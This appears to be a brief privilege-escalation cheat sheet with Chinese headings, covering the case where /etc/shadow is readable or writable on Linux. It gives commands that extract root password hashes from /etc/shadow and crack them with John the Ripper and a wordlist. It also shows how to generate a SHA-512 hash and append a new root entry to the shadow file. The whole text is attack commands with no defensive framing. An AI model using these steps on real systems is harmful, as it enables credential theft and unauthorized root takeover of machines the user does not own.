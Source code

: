 # Readable

破解root密码

```bash
cat /etc/shadow | grep ':\$' | tee hash
john --wordlist=<rockyou.txt> hash
```

# Writable

修改root密码

```bash
mkpasswd -m sha-512 qwe
echo 'root:<passwd>:19509:0:99999:7:::' >> /etc/shadow
```